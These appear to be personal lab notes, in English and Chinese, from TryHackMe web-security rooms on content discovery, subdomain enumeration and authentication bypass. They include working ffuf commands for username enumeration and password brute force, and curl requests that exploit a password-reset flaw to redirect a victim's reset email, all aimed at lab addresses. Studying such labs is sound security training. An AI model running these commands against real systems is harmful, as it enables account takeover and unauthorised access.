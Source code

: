 ## Walking An Application :
	--> CSS : premium -- display: block --> change to display : none 
	--> F12 -- Google Chrome Source =Firefox Debugger -- Pretty Print {} 
		-->  breakpoints : 強制瀏覽器停止處理 JavaScript 並暫停目前執行的點 --> bule
## Content Discovery :

	--> Manually :
		--> robots.txt
		--> favicon : 
			--> https://static-labs.tryhackme.cloud/sites/favicon/
			--> curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum
			--> https://wiki.owasp.org/index.php/OWASP_favicon_database
		--> sitemap.xml -- 網站地圖
		--> HTTP Headers : curl http://10.10.52.124 -v
		--> Framework Stack
	--> OSINT :
		--> Google Hacking / Dorking
			--> filter : site:
			--> https://en.wikipedia.org/wiki/Google_hacking

		--> Wappalyzer : https://www.wappalyzer.com/
			--> 使用的技術，例如框架、內容管理系統 ( CMS )、支付處理器
		--> Wayback Machine  : 
			--> 
		--> GitHub : version control system
		--> S3 Buckets :  Amazon AWS 提供的儲存服務 
			--> http(s):// {name}。s3.amazonaws.com  
	--> Automated Discovery :
		--> wordlists : 2024_5_CTF/wordlist/big.txt
		--> gobuster dir --url http://10.10.52.124/ -w 2024_5_CTF/wordlist/big.txt | /common.txt
## Subdomain Enumeration :

	--> OSINT 
		--> SSL/TLS Certificate
			--> https://crt.sh
			--> https://ui.ctsearch.entrust.com/ui/ctsearchui
		--> Search Engines (google)
			-->  -site:www.tryhackme.com  site:*.tryhackme.com
		--> Sublist3r : 
			--> ./sublist3r.py -d acmeitsupport.thm
	--> DNS Bruteforce :
		--> dnsrecon -t brt -d acmeitsupport.thm
	--> Virtual Hosts :
		--> wordlist : https://github.com/danielmiessler/SecLists/tree/master/Fuzzing
		--> ffuf -w namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.81.88 -fs {size}
		--> -w 使用的單字清單。 -H 新增/編輯標頭
## Authentication Bypass :
	--> Username Enumeration :
		--> ffuf -w 2024_5_CTF/wordlist/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.7.203/customers/signup -mr "username already exists"
	--> Brute Force : 
		--> ffuf -w valid_usernames.txt:W1,10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.7.203/customers/login -fc 200
	--> Logic Flaw : (===) 
		--> curl 'http://10.10.7.203/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
		--> curl 'http://10.10.7.203/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'